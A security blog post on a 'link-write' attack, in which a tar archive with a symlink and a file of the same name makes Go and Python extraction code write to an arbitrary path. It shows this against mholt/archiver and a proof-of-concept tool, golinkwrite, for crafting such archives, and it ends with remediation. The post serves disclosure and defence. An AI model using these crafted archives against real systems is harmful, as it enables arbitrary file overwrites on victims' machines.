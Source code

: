 ```yaml
---
title: "Link-Write Attack — A sweet combination"
draft: false
date: 2024-08-11T12:20:36+02:00
tags:
- attack
- tar
- golang
- python
---
```


I've recently been working on some exciting development projects, including a deep dive into archive extraction. During this work, I discovered some fascinating behaviours that I'm thrilled to share with you in the following sections.

<!--more--> 

_**TL;DR:**_ Tar archives can contain multiple entries with the same filename. It is important to note that Golang follows symlinks while calling [`os.Create(name string) (*File, error)`](https://pkg.go.dev/os#Create). This combination can lead to arbitrary writes during file extraction.

## Observations

### Repeating name in tar files

First of all, an archive can contain multiple entries with the same name. Lets take for example the tar file `alice.tar` (created with [ref](https://go.dev/play/p/7TjHUzQLuL8)). The file contains two entries:

```shell
$ tar ztvf alice.tar
lrw-------  0 0      0           0  1 Jan  1970 rabbit_hole -> /tmp/wonderland
-rw-r--r--  0 0      0          39  1 Jan  1970 rabbit_hole

```

The first entry is a symlink, the second is a legit text file. If this archive is extracted with the `tar` cli, the symlink  is extracted and afterwards replaced by the text file:

```shell
$ tar xvf alice.tar
x rabbit_hole
x rabbit_hole

$ ls -l
total 24
-rw-r--r--  1 jan  staff   2,5K  9 Aug 17:33 alice.tar
-rw-r--r--  1 jan  staff    39B  1 Jan  1970 rabbit_hole

$ file rabbit_hole
rabbit_hole: ASCII text, with no line terminators
```

Let's keep that behavior for now in mind and let us step to the next interesting observation.

### File creation in Golang

Files can be created in Golang with [os.Create(name string) (*File, error)](https://pkg.go.dev/os#Create). Data can then be written to the file and it can be closed. [The documentation says](https://pkg.go.dev/os#Create:~:text=Create%20creates%20or%20truncates%20the%20named%20file.%20If%20the%20file%20already%20exists%2C%20it%20is%20truncated.%20If%20the%20file%20does%20not%20exist%2C%20it%20is%20created%20with%20mode%200666%20(before%20umask).):

> Create creates or truncates the named file. If the file already exists, it is truncated. If the file does not exist, it is created with mode 0666 (before umask).

The interesting thing about this function is that the given `name` can be an existing file (or even better: a symlink!). My first expectation was that the symlink would be replaced/truncated and replaced with the contents of the file - similar to `tar`cli behaviour.

I implemented such behaviour in [Golang](https://go.dev/play/p/kunYCVn-_Zp) and in [Python](https://www.online-python.com/WAhSH75ia2) and it turned out that if we pass a symlink to the create function, the symlink is traversed and the content is written to the target!

Funny, right? 😃

## Verification of assumption

To verify my assumption, I picked a wide-spread existing OSS extraction implementation for archives in Golang – [mholt/archiver@v3](https://github.com/mholt/archiver/tree/v3-deprecated) – which is straightforward to use ([full code example](https://go.dev/play/p/NPqSWEOWphV)):  

```golang
// parse command line arguments
input := os.Args[1]
output := os.Args[2]

// unarchive the file
archiver.Unarchive(input, output)

// print the result
fmt.Printf("Unarchived %s to %s\n", input, output)
```

If we use this simple code snipped to extract our previous crafted archive, we get following result:

```
$ go run ./main.go alice.tar .
Unarchived alice.tar to .

$ ls -l
total 24
[...]
-rw-r--r--  1 jan  staff   299B  9 Aug 18:31 main.go
lrwxr-xr-x  1 jan  staff    15B  9 Aug 18:38 rabbit_hole@ -> /tmp/wonderland

$ cat /tmp/wonderland
Hello Alice, welcome to the wonderland!

```

So, we are capable of archiving an arbitrary write to the filesystem, by traversing the link during the file creation process.



## PoC tool: golinkwrite

If you want to create a potential malicious archive, feel free to use [NodyHub/golinkwrite](https://github.com/NodyHub/golinkwrite) to craft your own tar archives with double entries: 

```shell
$ echo 'Hello Alice :wave:!' | tee rabbit_hole.txt
Hello Alice :wave:!

$ golinkwrite -v rabbit_hole.txt /tmp/hi.txt alice.tar
time=2024-08-09T19:11:35.266+02:00 level=DEBUG msg="command line  parameters" cli="{Input:rabbit_hole.txt Target:/tmp/hi.txt Output:alice.tar Verbose:true}"
time=2024-08-09T19:11:35.266+02:00 level=DEBUG msg="input permissions" perm=-rw-r--r--
time=2024-08-09T19:11:35.266+02:00 level=DEBUG msg="input size" size=20
time=2024-08-09T19:11:35.266+02:00 level=INFO msg="tar file created" output=alice.tar

$ tar ztvf alice.tar
lrw-r--r--  0 0      0           0  1 Jan  1970 rabbit_hole.txt -> /tmp/hi.txt
-rw-r--r--  0 0      0          20  1 Jan  1970 rabbit_hole.txt
```

## Remediation

The root-cause of this behaviour is that symlinks are traversed during extraction. You can either implement your own checks or use Google's implementation: [google/safearchive](https://github.com/google/safearchive) to ensure that symlinks from an archive are not traversed during extraction. More details can be found in the blog post [The Family of Safe Golang Libraries is Growing!](https://bughunters.google.com/blog/4925068200771584/the-family-of-safe-golang-libraries-is-growing).